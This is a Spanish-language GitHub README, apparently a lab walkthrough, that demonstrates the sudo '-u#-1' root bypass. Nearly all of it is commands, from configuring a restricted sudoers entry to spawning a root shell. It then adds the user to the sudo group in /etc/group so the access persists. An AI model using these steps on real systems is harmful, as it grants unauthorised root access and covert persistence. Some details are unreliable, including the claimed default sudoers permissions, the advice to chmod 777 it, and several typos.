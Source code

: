 <img style="float:left" alt="netspy logo" src="https://github.com/hackingyseguridad/sudo/blob/master/sudo.png">

#0.- Por defecto /etc/sudoers tiene permisos chmod 775. 

Intentamos para editar sin problemas el fichero sudoers $chmod 777 /etc/sudoers  y volvemos a restablecer después los privilegios chmod 755 /etc/sudoers

#1.- Editamos el fichero /etc/sudoers con 

$usermod -aG sudo antonio

$sudo visudo 

#2.- Añadimos la linea con el usuario antonio 

#User privilege specification

root ALL=(ALL:ALL) ALL

antonio ALL=(ALL) /usr/bin/id

#4.- Ejecutamos: 

$su antonio

$sudo id

$sudo whoani

$sudo -u antonio id

#5.- Volvemos a editar el fichero /etc/sudoers con $sudo visudo

#6.- Modificamos la línea

antonio ALL=(ALL, !root) ALL

#7.- Explotamos la vulnerabilidad con sudo -u#-1

$chmod 755 /etc/sudoers

$sudo -u#-1 /bin/bash

#whoami

root

#8.- ya somos root!

exit

#9.- Otro si: añadimos en la línea sudo de /etc/group a antonio y nos hacernos persistentes en la maquina:

sudo vim /etc/group

sudo : x:27:antonio

forzamos la escritura en group al salir con :wq!

$sudo antonio

$sudo su

#10.- ya somos del grupo sudo y podemos elevar a root!

Editamos y eliminamos de sudoers la linea
antonio ALL=(ALL, !root) ALL


